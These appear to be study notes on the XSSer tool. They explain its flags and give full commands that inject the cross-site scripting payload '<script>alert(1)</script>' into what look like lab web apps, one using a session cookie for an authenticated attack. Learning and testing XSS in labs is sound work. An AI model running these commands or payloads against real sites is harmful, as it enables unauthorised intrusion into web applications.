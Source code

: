 # XSSer

- --url <url> : for get requests, pass XSS where payload required 
- -p <paload>: eg. -p "target_host=XSS"
- intercept traffic sent to webpage with burpsuite
	- `xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS'`
- --auto : try automatic payloads
	- `xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --auto`
- --Fp "<script>alert(1)</script>"
	- `xsser --url 'http://192.94.37.3/index.php?page=dns-lookup.php' -p 'target_host=XSS&dns-lookup-php-submit-button=Lookup+DNS' --Fp "<script>alert(1)</script>"`
- --cookie <cookie> : for authenticated xss attack
	- `xsser --url “http://192.158.102.3/htmli_get.php?firstname=XSS&lastname=hello&form=submit” --cookie=”PHPSESSID=j278tohghcg7lbr220uhf4rg22; security_level=0” --Fp “<script>alert(1)</script>”`

# Screenshots

![xss](./images/xss-01.png)
￼